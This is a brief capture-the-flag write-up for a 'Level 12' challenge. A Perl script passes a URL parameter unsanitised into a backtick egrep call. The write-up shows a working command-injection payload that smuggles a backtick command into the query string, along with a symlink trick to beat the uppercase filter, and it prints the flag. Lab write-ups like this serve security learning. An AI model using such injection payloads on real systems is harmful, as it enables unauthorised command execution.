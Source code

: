 # Level 12

We have a perl script that gets the argument from the url, passes it in a multiple regex then pases it in an egrep command

We want to send a payload that will get passed through the regexes


```pl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

The first regex changes all characters to caps and the second one gets rid of the whitespaces so we need a payload that doesn't contain any whitespace and that is in all caps

We will have to execute the getflag command but in all caps so GETFLAG. We need to get it either in a folder in all caps or we need it to be the only GETFLAG file and use a wildcard which will scan all folders and use the found file if it is the only one this we create a fake getflag with a simlink

```bash
ln -s /bin/getflag /tmp/GETFLAG
```
then we want to execute this
```bash
curl 'localhost:4646?x=`/*/GETFLAG>&2`'
```

But we need to encode the url first
```bash
curl 'localhost:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
```
The result appears in the errors of the server and we have access to the error logs of the apache server

```bash
cat /var/log/apache2/error.log 
```

**Flag** : g1qKMiRpXf53AWhDaU7FEkczr